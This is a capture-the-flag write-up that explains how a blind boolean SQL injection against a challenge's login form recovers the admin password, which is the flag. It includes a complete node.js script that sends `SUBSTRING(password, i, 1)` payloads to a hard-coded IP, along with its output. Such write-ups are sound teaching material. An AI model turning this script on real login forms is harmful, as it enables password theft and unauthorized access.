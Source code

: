 ```yaml
---
created: 2021-12-21T23:50
updated: 2024-06-10T23:38
---
```


## AppVenture Login Part 2

> Ok, you got the flag, but I bet you'll never get my password!

Basing off the description, the flag is probably the password. Even though we logged in as admin in the last challenge, we do not know of the password.

To get the password, we can check the password 1 character at a time to reduce the number of tries. Trying the entire password string at a time require exponential amount of tries and will be unrealistic.

The flag format is `flag{...}` where characters consist of lower case letters, `{}` and `_`. We can quickly code up a little script to find the password. In this writeup we will be using `node.js` for the simplicity and non-pythonic syntax.

```js
const fetch = require("node-fetch");
const FormData = require('form-data');

let chars = "abcdefghijklmnopqrstuvwxyz_{}".split('');
let password = [];

async function verify(i, c) {
    const form = new FormData();
    form.append('username', `admin' and SUBSTRING(password, ${i + 1}, 1)='${c}' --`);
    const res = await fetch('http://35.240.143.82:4208/login', {method: 'POST', body: form})
    const text = await res.text();
    return text !== "Login failed"
}

async function step(i) {
    for (let c of chars) {
        if (await verify(i, c)) return c;
    }
    return null;
}

async function brute_force() {
    let i = 0;
    while (true) {
        password[i] = await step(i);
        console.log(password.join(''));
        if (!password[i]) break;
        i++;
    }
    console.log(password.join(''));
}

brute_force();
```

As before we use `admin'` to escape the admin field, and `--` to skip the password check.

However we add our own check in the middle, `SUBSTRING(password, i, 1)` works the same as normal substring would but sql is 1-indexed(kinda weird but yeh)

What would happen would be like this

- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='a' --` fail
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='b' --` fail
- ...
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='f' --` success
- `select id from users where name='admin' and SUBSTRING(password, 2, 1)='a' --` fail
- ...

`verify` will make a request to check if the password has character in variable `c` at position `i`.

`step` will simply try all characters for a position until one hits.

`brute_force()` will step through all positions until a correct character can't be found for the position, which would be most likely the end of the password

### Running the script

```flag
f
fl
fla
...
flag{oops_looks_like_youre_not_blind
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
```

Flag obtained
